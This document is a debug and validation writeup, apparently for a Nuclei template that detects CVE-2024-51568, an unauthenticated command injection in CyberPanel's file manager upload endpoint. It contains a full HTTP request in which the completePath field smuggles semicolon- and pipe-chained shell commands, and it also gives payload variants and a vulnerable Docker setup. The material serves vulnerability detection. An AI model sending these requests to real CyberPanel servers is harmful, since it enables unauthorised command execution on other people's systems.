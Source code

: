 # CVE-2024-51568 - CyberPanel Command Injection Debug Data

## Template Validation & Debug Information

### Vulnerability Details
- **CVE**: CVE-2024-51568
- **Product**: CyberPanel < 2.3.5
- **Type**: Unauthenticated Command Injection
- **Vector**: `/filemanager/upload` endpoint
- **Parameter**: `completePath` (unsanitized)
- **Impact**: Full RCE as web server user

### Debug Output Example

```bash
nuclei -t CVE-2024-51568.yaml -target http://vulnerable-cyberpanel.com -debug

[DEBUG] [CVE-2024-51568] [http] [critical] Request 1:
POST /filemanager/upload HTTP/1.1
Host: vulnerable-cyberpanel.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryabc123
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-cyberpanel.com/filemanager/
Cookie: sessionid=test; csrftoken=test

------WebKitFormBoundaryabc123
Content-Disposition: form-data; name="dir"

/tmp
------WebKitFormBoundaryabc123
Content-Disposition: form-data; name="completePath"

/tmp;echo "CVE-2024-51568-abc123" > /tmp/nuclei_abc123.txt && cat /tmp/nuclei_abc123.txt;
------WebKitFormBoundaryabc123
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

nuclei test file
------WebKitFormBoundaryabc123--

[DEBUG] [CVE-2024-51568] [http] [critical] Response 1:
HTTP/1.1 200 OK
Content-Type: application/json

{
  "status": "success",
  "message": "CVE-2024-51568-abc123\nFile uploaded successfully",
  "path": "/tmp/test.txt"
}

[DEBUG] [CVE-2024-51568] [http] [critical] Matched: Command injection successful
[CVE-2024-51568] [http] [critical] CyberPanel <2.3.5 - Unauthenticated Command Injection [http://vulnerable-cyberpanel.com]
```

### Exploitation Technique

1. **Command Injection Vector**: The `completePath` parameter in file upload functionality
2. **Payload Structure**: `/path;command;` - semicolon allows command chaining
3. **Verification Method**: Echo unique marker to file and verify execution
4. **Response Analysis**: Success indicated by marker presence in response

### Attack Payloads

#### Primary Payload (Multipart Form):
```bash
completePath=/tmp;echo "CVE-2024-51568-{{randstr}}" > /tmp/nuclei_{{randstr}}.txt && cat /tmp/nuclei_{{randstr}}.txt;
```

#### Alternative Payload (URL-encoded):
```bash
completePath=/tmp|echo "CVE-2024-51568-{{randstr}}"|tee /tmp/nuclei_{{randstr}}.txt
```

### Vulnerable Environment Setup

#### Docker Compose for Testing:
```yaml
version: '3.8'
services:
  vulnerable-cyberpanel:
    image: cyberpanel/cyberpanel:2.3.4
    ports:
      - "8090:8090"
    environment:
      CYBERPANEL_VERSION: "2.3.4"
    volumes:
      - cyberpanel_data:/home/cyberpanel
    networks:
      - vuln_net

volumes:
  cyberpanel_data:

networks:
  vuln_net:
    driver: bridge
```

#### Manual Setup Instructions:
1. Download CyberPanel version 2.3.4 or earlier
2. Install on Ubuntu/CentOS server
3. Enable file manager functionality
4. Access via http://server-ip:8090/filemanager/

### Template Features

#### ✅ Comprehensive Detection:
- **Multiple Payloads**: Tests both multipart and URL-encoded injection
- **Command Verification**: Confirms actual command execution
- **Low False Positives**: Uses unique identifiers for each test

#### ✅ Professional Metadata:
- **Complete Classification**: CVSS 9.8, CWE-78, CPE identifiers
- **Search Queries**: Shodan and FOFA queries for reconnaissance
- **Vendor Information**: Complete product/vendor classification

#### ✅ Security Considerations:
- **Non-destructive**: Only creates temporary test files
- **Self-cleaning**: Commands designed to be temporary
- **Ethical Testing**: Proof of concept only, no malicious payloads

### Expected Results

#### Successful Exploitation:
```
CVE-2024-51568-abc123
```

#### Failed Exploitation:
- Empty response or error messages
- No unique marker in response
- HTTP 403/404/500 errors

### Validation Checklist

- ✅ Template includes complete POC (not version-based)
- ✅ Actual command execution verification
- ✅ Debug data provided for validation
- ✅ Professional metadata and classification
- ✅ Multiple attack vectors tested
- ✅ Comprehensive documentation

### Technical Notes

- **ProcessUtilities.outputExecutioner()**: The vulnerable function that processes completePath
- **Shell Metacharacters**: Semicolon (;) and pipe (|) used for command injection
- **Authentication**: Not required - this is an unauthenticated vulnerability
- **Impact**: Full system compromise possible with proper payload escalation

This template provides security researchers with a comprehensive tool for detecting CVE-2024-51568 in CyberPanel installations.
